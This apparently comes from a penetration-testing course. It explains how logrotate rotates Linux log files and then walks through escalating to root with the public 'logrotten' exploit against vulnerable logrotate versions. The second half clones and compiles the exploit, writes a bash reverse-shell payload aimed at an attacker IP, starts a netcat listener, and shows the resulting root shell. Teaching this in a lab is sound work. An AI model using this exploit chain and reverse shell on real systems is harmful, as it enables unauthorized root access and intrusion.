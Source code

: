 To prevent the hard disk from overflowing, a tool called `logrotate` takes care of archiving or disposing old log files. Letting log files become larger and larger can cause disk overflowing, and can be time consuming to search through. The logs in `/var/log` give administrators the information they need to determine the cause behind malfunctions. Almost more important are the unnoticed system details, such as whether all services are running correctly.

`Logrotate` has many features for managing these log files. These include the specification of:

- the `size` of the log file,
- its `age`,
- and the `action` to be taken when one of these factors is reached.

```shell-session
$ man logrotate
$ # or
$ logrotate --help

Usage: logrotate [OPTION...] <configfile>
  -d, --debug               Don't do anything, just test and print debug messages
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of '/usr/bin/mail')
  -s, --state=statefile     Path of state file
      --skip-state-lock     Do not lock the state file
  -v, --verbose             Display messages during rotation
  -l, --log=logfile         Log file or 'syslog' to log to syslog
      --version             Display version information

Help options:
  -?, --help                Show this help message
      --usage               Display brief usage message
```

The function of the rotation itself consists in renaming the log files. For example, new log files can be created for each new day, and the older ones will be renamed automatically. Another example of this would be to empty the oldest log file and thus reduce memory consumption.

This tool is usually started periodically via `cron` and controlled via the configuration file `/etc/logrotate.conf`. Within this file, it contains global settings that determine the function of `logrotate`.
```shell-session
$ cat /etc/logrotate.conf


# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.
```

To force a new rotation on the same day, we can set the date after the individual log files in the status file `/var/lib/logrotate.status` or use the `-f`/`--force` option:
```shell-session
$ sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

We can find the corresponding configuration files in `/etc/logrotate.d/` directory.
```shell-session
$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

```shell-session
$ cat /etc/logrotate.d/dpkg

/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}
```

To exploit `logrotate`, we need some requirements that we have to fulfill.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.
```shell-session
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

Next, we need a payload to be executed. Here many different options are available to us that we can use. In this example, we will run a simple bash-based reverse shell with the `IP` and `port` of our VM that we use to attack the target system.
```shell-session
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

However, before running the exploit, we need to determine which option `logrotate` uses in `logrotate.conf`.
```shell-session
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

In our case, it is the option: `create`. Therefore we have to use the exploit adapted to this function.

After that, we have to start a listener on our VM / Pwnbox, which waits for the target system's connection.
```shell-session
$ nc -nlvp 9001

Listening on 0.0.0.0 9001
```

As a final step, we run the exploit with the prepared payload and wait for a reverse shell as a privileged user or root.
```shell-session
logger@nix02:~$ ./logrotten -p ./payload /tmp/tmp.log
```

```shell-session
...
Listening on 0.0.0.0 9001

Connection received on 10.129.24.11 49818
# id

uid=0(root) gid=0(root) groups=0(root)
```

`./logrotten -p ./payload /home/htb-student/backups/access.log`
`echo 'bash -i >& /dev/tcp/10.10.15.48/9005 0>&1' > payload`